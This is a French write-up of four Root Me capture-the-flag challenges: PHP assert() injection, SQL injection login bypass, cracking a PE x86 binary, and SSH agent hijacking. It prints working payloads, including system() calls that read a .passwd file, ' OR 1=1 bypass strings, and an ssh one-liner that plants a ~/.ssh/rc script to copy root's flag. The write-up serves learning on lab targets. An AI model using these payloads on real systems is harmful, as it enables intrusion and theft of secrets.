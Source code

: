 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exé-cuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>

![alt text](imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND \`username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__
</br>
</br>

### Chall 3 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall3/chall3.png "PE x86 - 0 protection")
</br>

Dans un premier temps on télécharge le __.exe__ du challenge, ensuite nous l'ouvrons avec __Cutter__ afin d'avoir une vue désassemblée de cet exécutable.
</br>

![alt text](imgchall3/cutter_1.png "PE x86 - 0 protection")
</br>

Nous savons que le but de ce challenge est de retrouver le __Password__ donc nous allons commencer par chercher une fonction __Wrong.password__. Nous entrons notre recherche dans la barre de rechercher de __Cutter__ ce qui nous renvoie ici:
</br>

![alt text](imgchall3/cutter_2.png "PE x86 - 0 protection")
</br>

Ici on peut voir dans le __DATA XREF__ a quelle fonction correspond cette string et où elle se trouve
> ; DATA XREF from fcn.00401726 @ 0x04017aa

A partir de la nous nous deplacons vers la __fonction__ d'addresse 0x004017aa, ce qui nous ramène sur cette vue:
</br>

![alt text](imgchall3/cutter_3.png "PE x86 - 0 protection")
</br>

D'ici nous pouvons voir grâce à l'arborescence que plusieurs variables sont reliées à cette fonction, et que en bout de ligne ce trouve un commentaire en chiffre. Ces chiffres doivent être le mot de passe décomposé. Si nous executons le programme et entrons ses chiffres comme mot de passe nous avons une erreur
> Wrong Password

Si ces chiffres ne fonctionne pas essayons de les transcoder dans un autre type, par exemple en __ASCII__, si nous prennons la correspondance de chaque chiffre alors cela nous donne 
> 'S' 'P' [...] 'S'

et si nous entrons ces lettres (majuscule et miniscule respectées) alors a ce moment nous avons le message 
> Gratz Man :)

qui apparait, donc ce mot de passe est le bon

Flag : __SP[...]S__
</br>
</br>

### Chall 4 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall4/chall4.png "SSH - Agent Hijacking")
</br>

Pour ce challenge nous devons demarrer un machine virtuel détenue par root-me et nous connecter desssus avec les logs: __admin/admin__.
</br>

![alt text](imgchall4/chall4_1.png "SSH - Agent Hijacking")
</br>

Donc nous avons le VM ctf06, ce qui est important a retenir pour la suite.

Pour la suite nous devons ecrire un script qui nous permettra de d'exécuter du code quand notre collègue se connectera sur le server. Soit nous nous connecton sur le server et nous ecrivons notre script dans 
> ~/.ssh/rc

pour qu'il s'exécute a la connexion, soit nous ecrivons cette ligne dans notre terminal
> ssh -oStrictHostKeyChecking=no admin@ctf06.root-me.org "echo \"ssh -oStrictHostKeyChecking=no root@localhost 'cat /passwd /root/.flag > /tmp/flag && chmod 777 /tmp/flag'\" > .ssh/rc; while [[ ! -f /tmp/flag ]]; do sleep 1; done; cat /tmp/flag"

en oubliant pas de changer 
> admin@ctf06.root-me.org

en fonction de la machine que nous utilison. Ce qui nous donnera après 1 minute d'atttente ce résultat:
</br>

![alt text](imgchall4/chall4_2.png "SSH - Agent Hijacking")
</br>

Nous avons donc nos 2 flags.

Flag VM : __4179[...]c300d05__

Flag Chall : __B3[...]AGENT__
